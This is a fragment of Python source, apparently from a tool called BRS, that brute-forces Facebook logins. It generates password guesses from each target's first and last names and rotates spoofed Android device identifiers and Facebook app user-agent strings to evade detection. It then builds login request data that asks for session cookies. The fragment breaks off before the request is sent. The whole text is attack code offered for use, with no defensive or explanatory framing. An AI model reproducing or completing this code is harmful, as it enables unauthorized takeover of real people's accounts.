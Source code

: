                 input(' Press enter to back ')
                os.system('python BRS.py')

def api1(ids,names,passlist):
        try:
            global ok,loop
            sys.stdout.write('\r\r\033[1;37m [BRS-M1] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
            fn = names.split(' ')[0]
            try:
                ln = names.split(' ')[1]
            except:
                ln = fn
            for pw in passlist:
                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                
                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                application_version_code=str(random.randint(000000000,999999999))
                __iam_genius = random.choice(android_models)
                phone_model = __iam_genius.split('|')[0]
                phone_company = __iam_genius.split('|')[1]
                dimensions = __iam_genius.split('|')[2]
                ffb=random.choice(fbks)
                dvlk = random.choice(usr)
                ua_string = "[FB4A/;FBAV/4Q095MQG;FBBV/271668825;FBAN/FB4A;FBAV/4Q095MQG;FBBV/271668825;FBDM//*{density=1.5,width=1080,height=3840};FBLC/ru_RU;FBRV/192444016;FBCR/LG;FBMF/Motorola;FBBD/Elephone;FBPN/com.facebook.katana;FBDV/Mi_11T_Pro;FBSV/14;FBOP/4;FBCA/arm64-v8a;FBSS/;]"+"[FB4A/;FBAV/A1XDL5U4;FBBV/999391731;FBAN/FB4A;FBAV/A1XDL5U4;FBBV/999391731;FBDM//*{density=2.0,width=720,height=3840};FBLC/zh_CN;FBRV/282348360;FBCR/OPPO;FBMF/Motorola;FBBD/HMD_Global;FBPN/com.facebook.katana;FBDV/Motorola_Moto_G700;FBSV/15;FBOP/7;FBCA/x86_64;FBSS/;]"+"[FBAN/;FBAV/YZWSES93;FBBV/910131153;FBAN/FBAN;FBAV/YZWSES93;FBBV/910131153;FBDM//*{density=3.0,width=720,height=2560};FBLC/en_US;FBRV/265090464;FBCR/TECNO;FBMF/VIVO;FBBD/Sony;FBPN/com.facebook.katana;FBDV/Sony_Xperia_5G;FBSV/17;FBOP/7;FBCA/x86;FBSS/;]"+"[FB4A/;FBAV/A1XDL5U4;FBBV/348757172;FBAN/FB4A;FBAV/A1XDL5U4;FBBV/348757172;FBDM//*{density=2.5,width=2560,height=3840};FBLC/it_IT;FBRV/867142419;FBCR/Realme;FBMF/Motorola;FBBD/Blu;FBPN/com.facebook.katana;FBDV/Nokia_X150;FBSV/17;FBOP/5;FBCA/x86_64;FBSS/18;]"+"[FBAN/;FBAV/;FBBV/360257259;FBAN/FBAN;FBAV/;FBBV/360257259;FBDM//*{density=3.0,width=1440,height=3840};FBLC/de_DE;FBRV/191198785;FBCR/LG;FBMF/OnePlus;FBBD/Oppo;FBPN/com.facebook.katana;FBDV/Pixel_6;FBSV/12;FBOP/4;FBCA/x86_64;FBSS/;]"
                li = ['28','29','210']
                li2 = random.choice(li)
                j1 = ''.join(random.choice(digits) for _ in range(2))
                j2 = li2+j1
                device_family_id = str(uuid.uuid4())
                adid = str(uuid.uuid4())
                machine_id = ''.join(random.choice(ascii_uppercase+ascii_lowercase+digits+'_') for _ in range(24))
                data = {'adid':adid,
                'format':'json',
                'device_id':device_family_id,
                'email':ids,
                'password':pas,
                'generate_analytics_claim':'1',
                'community_id':'','cpl':'true','try_num':'1',
                'family_device_id':device_family_id,
                'credentials_type':'device_based_login_password',
                'generate_session_cookies':'1',
                'error_detail_type':'button_with_disabled',
                'source':'device_based_login',
                'machine_id':machine_id,
                'login_location_accuracy_m':'1.0',
                'meta_inf_fbmeta':'',
                'advertiser_id':adid,
                'encrypted_msisdn':'',
                'currently_logged_in_userid':'0',